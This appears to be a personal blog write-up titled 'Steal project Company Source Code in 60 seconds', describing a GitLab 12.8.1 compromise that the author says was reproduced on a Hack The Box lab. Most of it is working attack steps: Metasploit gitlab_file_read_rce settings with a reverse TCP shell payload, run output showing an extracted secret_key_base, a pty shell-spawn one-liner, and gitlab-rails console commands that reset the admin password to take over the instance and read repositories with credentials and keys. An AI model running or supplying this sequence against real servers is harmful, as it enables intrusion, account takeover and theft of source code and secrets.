 ```yaml
---
layout: default
---
```


### Steal project Company Source Code in 60 seconds

|![title](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/title.jpg)|
-

The journey starts with Company Gitlab CI with open register functional that i got from the rsource company list , Gitlab is self hosted on barametal hosting. The Current version of the gitlab-ce is vulnerable to LFI and RCE exploiting the RCE and getting initial shell in a server , Changing the admin account with github-rails console and login as him on gitlab. Got the private credentials. keys in a project-repo.

For notes used test env as HTB Machine - Laboratory because real env under NDA.

####  Gitlab CI resource

And i can see that Gitlab is hosted. I saw open Register function and Try do it!

![register](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/register.jpg)

Now i registered myself as oleksii and logged in

![login](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/login.jpg)

Didn’t see anything good and juicy then i just go to https://gitlab.site.io/help

![version](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/version.jpg)

So its 12.8.1 , so searched a bit about it on google and got so many CVEs. And on rapid7.com site saw info about vulnerabilities, it was disclosed few months ago (Created 12/10/2020) and was about LFI & RCE. The RCE only affects versions 12.4.0 and above when the vulnerable `experimentation_subject_id` cookie was introduced. Tested on GitLab 12.8.1 and 12.4.0.

This picture in Company Gitlab CI says a lot:)

![asap](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/asap.jpg#center)

#### RCE in the gitlab

Now i can that i exploitetion RCE using msfconsole tool https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce because exploit was development and added it to exploit list. 

```
msf6 exploit(multi/http/gitlab_file_read_rce) > use exploit/multi/http/gitlab_file_read_rce
msf6 exploit(multi/http/gitlab_file_read_rce) > show options 

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name             Current Setting                                               
   ----             ---------------                                               
   USERNAME         oleksii@test.test                                             
   PASSWORD         oleksii@test.test                                             
   RHOSTS           10.10.10.                                                         
   RPORT            443                                                           
   SECRETS_PATH     /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml  
   TARGETURI        /users/sign_in                                                
   VHOST            gitlab.site.io                                                

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.*       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

Exploitation RCE vulnersability: 

```
msf6 exploit(multi/http/gitlab_file_read_rce) > exploit 
[-] Handler failed to bind to 10.10.14.*:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user oleksii
[*] Created project /oleksii/Dyb4bxA6
[*] Created project /oleksii/L8SKsN52
[*] Created issue /oleksii/Dyb4bxA6/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/root/.msf4/loot/20210102134743_default_10.10.10.*_gitlab.secrets_489388.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /oleksii/Dyb4bxA6
[*] Deleted project /oleksii/Dyb4bxA6
[*] Attempting to delete project /oleksii/L8SKsN52
[*] Deleted project /oleksii/L8SKsN52
```

Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

#### Resetting admin password

Now since the gitlab is installed i can spawn a gitlab-rails console and reset the admin password , and check who is admin. Resetting admin password offical document link https://docs.gitlab.com/12.10/ee/security/reset_root_password.html

Used command from this doc I could reset admin password. Start a Ruby on Rails console with this command:
```
 gitlab-rails console -e production
```
Wait until the console has loaded.

There are multiple ways to find your user. You can search for email or username.
```
  user = User.where(id: 1).first
```

or

Other type get username and email without Gitlab authentification is use api https://gitlab.site.io/api/v4/users/1 

Now you can change your password:
```
 user.password = 'secret_pass'
 user.password_confirmation = 'secret_pass'
```
It’s important that you change both password and password_confirmation to make it work.

Don’t forget to save the changes.
```
 user.save!
```
Exit the console and try to login with your new password.

#### Login as admin on gitlab

Now can login as admin - dexter : secret_pass and can see all repos with credentials and keys. 

So now see how can steal project Source code in 60 seconds because I think If you repeat all command from this notes then spend no more than 60 second.in 60 seconds bacouse I think If you repeat all command from this notes and spend no more than 60 second. 




 